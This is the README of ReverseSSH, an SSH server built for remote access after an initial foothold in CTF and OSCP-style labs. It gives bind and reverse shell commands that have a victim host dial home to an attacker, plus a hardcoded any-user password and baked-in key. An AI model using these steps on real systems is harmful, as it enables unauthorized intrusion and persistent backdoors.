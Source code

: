 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

Has been developed and was extensively used during OSCP exam preparation.

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases/latest)**

![Showcase](doc/showcase.gif)


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead you can go the way to simply deploy a **lightweight ssh server** (<1.5MB) onto the target and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access** (A fully interactive powershell on windows relies on the [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`. Before that, it still works, but you only get a somewhat interactive, generic reverse shell.)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* Supports **Unix** and **Windows** operating systems


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

```shell
reverseSSH v1.0.0-alpha  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; no effect for windows (default: /bin/bash)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prependend with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```shell
# Simple, interactive shell access
$ssh -p <RPORT> <RHOST>

# Full-fledged file transfers
$sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy
$ssh -p <RPORT> -D 9050 <RHOST>
```

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```shell
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Simple bind shell scenario

```shell
# Victim
$./reverse-ssh

# Attacker (default password: letmeinbrudipls)
$ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```shell
# On attacker (get ready to catch the incoming request; can be omitted if you already have an ssh daemon running)
attacker$./reverse-ssh -l :<LPORT>

# On victim
victim$./reverse-ssh -p <LPORT> <LHOST>
# or in case of another ssh daemon listening at port 22
victim$./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ssh -p 8888 127.0.0.1
# or with ssh config from above
attacker$ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```shell
$make

# or to additionally created binaries packed with upx
$make compressed
```

You can also specify a personalized password (`RS_PASS`) or authorized key (`RS_PUB`) when compiling:

```shell
$ssh-keygen -t ed25519 -f id_reverse-ssh

$RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**